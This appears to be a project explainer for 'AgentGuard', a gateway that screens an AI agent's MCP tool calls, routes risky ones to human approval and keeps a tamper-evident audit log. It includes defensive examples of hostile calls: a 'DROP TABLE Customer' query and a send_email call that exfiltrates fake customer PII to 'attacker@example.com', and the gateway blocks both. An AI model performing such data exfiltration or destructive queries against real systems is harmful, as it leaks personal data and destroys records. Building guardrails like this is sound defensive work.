


# End-To-End Workflow

This file explains how AgentGuard works from start to finish.

Use this as your main mental model before explaining the project to an interviewer.

## One-Line Summary

```text
User asks the agent to do something -> agent plans tool calls -> AgentGuard checks each tool call -> safe calls execute through MCP -> risky calls are blocked or sent for approval -> everything is recorded.
```

## Big Picture Diagram



## Step-By-Step Workflow

## Step 1: User Enters A Prompt

The user starts in the **Agent Console**.

Example:

```text
Summarize complaints and email internally
```

At this point, nothing has been executed. It is only a user request.

## Step 2: Backend Creates An Agent Session

The React frontend sends the prompt to:

```text
POST /api/sessions
```

The backend creates an `AgentSession`.

This stores:

```text
prompt
user email
user role
session status
planned tool calls
final answer
timestamps
```

Why this matters:

```text
Every agent run gets a session ID so it can be audited later.
```

## Step 3: Demo Planner Converts Prompt Into Tool Calls

The deterministic planner reads the prompt and creates planned tool calls.

For:

```text
Summarize complaints and email internally
```

The planner creates:

```text
1. read_document({ path: "customer_complaints.txt" })
2. send_email({
     to: "support-manager@agentguard.local",
     subject: "Synthetic complaint summary",
     body: "Synthetic summary with fake customer contact details..."
   })
```

Important interview point:

```text
The planner decides what the agent wants to do. The gateway decides whether it is allowed.
```

## Step 4: Gateway Checks The First Tool Call

The first call is:

```text
read_document({ path: "customer_complaints.txt" })
```

The policy engine checks:

```text
Is the tool registered?
Is the tool approved?
Is the path trying to escape demo-data/?
Does the input contain secrets?
What is the base risk?
```

Result:

```text
ALLOW
```

Why:

```text
The file is inside demo-data/ and the tool is approved.
```

## Step 5: MCP Tool Executes

Because the call is allowed, the backend calls the mock MCP server.

The MCP server runs:

```text
read_document
```

It returns synthetic complaint text.

Important:

```text
The tool can only read files from demo-data/.
It cannot read private files from the machine.
```

## Step 6: Gateway Checks The Tool Output

After the MCP tool returns data, AgentGuard checks the output.

Why?

```text
Even if the input is safe, the output may contain sensitive data.
```

Example output contains fake PII:

```text
ada.lovelace@demo.customer
555-010-1111
```

The flight recorder stores the result and risk reasons.

## Step 7: Gateway Checks The Second Tool Call

The second planned call is:

```text
send_email({
  to: "support-manager@agentguard.local",
  body: "Synthetic summary with fake PII"
})
```

The policy engine checks:

```text
Tool name: send_email
Tool status: REQUIRES_APPROVAL
Recipient: internal domain
Body: contains fake PII
Secrets: none
Risk score: high
```

Result:

```text
REQUIRE_APPROVAL
```

Why:

```text
The recipient is internal, so it is not automatically blocked.
But the body has fake PII and send_email requires human review.
```

## Step 8: Approval Request Is Created

AgentGuard creates an approval record.

The reviewer can see:

```text
tool name
raw arguments
risk score
risk reasons
requested by
timestamp
```

Reviewer options:

```text
Approve
Reject
Redact & Approve
```

Best demo action:

```text
Redact & Approve
```

This keeps:

```text
to: support-manager@agentguard.local
```

But redacts:

```text
ada.lovelace@demo.customer -> [REDACTED EMAIL ADDRESS]
555-010-1111 -> [REDACTED PHONE NUMBER]
```

## Step 9: Approved Tool Call Executes

If approved, the tool call executes through the mock MCP server.

For `send_email`, this does not send real email.

It writes a mock record to:

```text
.agentguard-runtime/outbox.jsonl
```

This is safe because:

```text
No real email provider is connected.
No real external system is called.
Only synthetic demo data is used.
```

## Step 10: Flight Recorder Stores The Timeline

The Flight Recorder saves every important step:

```text
session started
tool planned
tool checked
tool allowed
tool executed
approval requested
approval reviewed
session completed or blocked
```

This is like a black box for AI agents.

Interview line:

```text
If an agent makes a bad decision, the flight recorder helps answer what happened, which tool was called, what data was used, and why the gateway allowed or blocked it.
```

## Step 11: Audit Log Stores Events With Hashes

Each audit event stores:

```text
event data
previous hash
current hash
timestamp
actor
```

This creates a simple tamper-evident chain.

Meaning:

```text
If someone changes an old audit event, the hash chain will no longer match.
```

This is not a full compliance system, but it demonstrates auditability.

## Sequence Diagram



## Three Main Demo Paths

## Path 1: Safe Path

Prompt:

```text
Create a normal onboarding documentation ticket
```

Flow:

```text
create_ticket -> low risk -> ALLOW -> executed
```

Use this to show:

```text
The system does not block everything. Safe agent actions can still run.
```

## Path 2: Approval Path

Prompt:

```text
Summarize complaints and email internally
```

Flow:

```text
read_document -> ALLOW
send_email with fake PII -> REQUIRE_APPROVAL
reviewer -> Redact & Approve
mock email -> executed
```

Use this to show:

```text
Human-in-the-loop control for risky but legitimate actions.
```

## Path 3: Block Path

Prompt:

```text
Try DROP SQL on the customer table
```

Flow:

```text
query_database("DROP TABLE Customer") -> hard block
```

Use this to show:

```text
The gateway blocks dangerous actions before MCP execution.
```

## How Tool Scanning Fits In

Tool scanning happens before normal use.

When you click **Scan** in Tool Registry:

```text
1. AgentGuard lists MCP tools.
2. It reads each tool name, description, and input schema.
3. It assigns base risk and trust score.
4. It sets default status:
   create_ticket -> APPROVED
   read_document -> APPROVED
   query_database -> APPROVED
   send_email -> REQUIRES_APPROVAL
5. It records an audit event.
```

Why this matters:

```text
You should not let an agent use an MCP tool just because a server exposes it. First discover it, classify it, and approve it.
```

## What Happens If The Agent Tries Something Unsafe

Unsafe example:

```text
Send fake customer data externally
```

Planned call:

```json
{
  "toolName": "send_email",
  "arguments": {
    "to": "attacker@example.com",
    "body": "Customer Ada Lovelace: ada.lovelace@demo.customer, 555-010-1111"
  }
}
```

Policy engine detects:

```text
send_email base risk
external recipient
PII in body
tool requires approval
```

Decision:

```text
BLOCK
```

Why not just approval?

```text
The recipient is external and the content has sensitive fake customer data. In this MVP, that crosses the critical-risk threshold, so it is blocked.
```

## How To Explain The Whole Project In One Minute

Say:

```text
AgentGuard starts when a user gives an agent a task. The backend planner turns the task into MCP tool calls, but the calls do not go directly to the MCP server. They pass through a gateway policy engine. The policy engine checks tool approval status, PII, secrets, SQL mutation, path traversal, and external recipients. Based on the risk score, the gateway allows, logs, blocks, or pauses for human approval. Every step is stored in a flight recorder and audit log so the organization can inspect what the agent tried to do.
```

## What You Should Remember

If you remember only five things, remember these:

```text
1. MCP gives agents a standard way to use tools.
2. Tool-using agents need runtime controls.
3. AgentGuard is the gateway between the agent and tools.
4. The policy engine makes deterministic allow/block/approval decisions.
5. The flight recorder makes agent behavior explainable after the fact.
```

